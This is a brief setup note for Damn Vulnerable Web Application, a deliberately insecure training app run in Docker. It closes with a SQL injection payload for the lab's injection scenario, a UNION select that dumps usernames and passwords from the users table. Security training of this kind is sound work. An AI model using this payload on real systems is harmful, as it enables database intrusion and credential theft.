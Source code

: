 # Damn Vulnerable Web Application

docker run --rm -it -p 80:80 vulnerables/web-dvwa

Click 'create/reset-db' on the first page, default difficulty is set to impossible (you may want to drop that down!)

Run the following command in the SQL Injection scenario to test:

%' and 1=0 union select null, concat(user,':',password) from users #
